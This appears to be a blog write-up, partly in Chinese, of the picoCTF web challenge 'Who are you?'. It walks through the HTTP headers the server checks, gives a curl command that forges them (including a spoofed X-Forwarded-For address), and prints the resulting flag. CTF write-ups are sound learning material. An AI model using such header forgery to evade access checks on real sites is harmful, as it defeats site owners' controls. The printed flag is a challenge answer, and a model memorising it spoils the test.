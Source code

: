 ```yaml
---
title: "picoCTF Who are you? [100 points]"
date:  2023-12-24
categories: [CTF]
tags:       [Web Exploit]
---
```

## Description

> Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:38322/

## Hints

> It ain’t much, but it’s an RFC https://tools.ietf.org/html/rfc2616

## Solution

一開始可以看到網頁有個提示：use PicoBrowser  


### User-Agent: PicoBrowser

> I don’t trust users visiting from another site.

### 

> Sorry, this site only worked in 2018.

### Date: 2018

> I don’t trust users who can be tracked.

### DNT: 1

> This website is only for people from Sweden.

### X-Forwarded-For: 2.16.66.0

> You’re in Sweden but you don’t speak Swedish?

### Accept-Language: sv

> What can I say except, you are welcome

使用curl更改配送後送出得到flag

``` line-numbers
curl 'http://mercury.picoctf.net:38322/' \
--header 'User-Agent: PicoBrowser' \
--header 'Referer: http://mercury.picoctf.net:38322/' \
--header 'Date: 2018' \
--header 'DNT: 1' \
--header 'X-Forwarded-For: 2.16.66.0' \
--header 'Accept-Language: sv'
```

flag: picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_b22d773c}
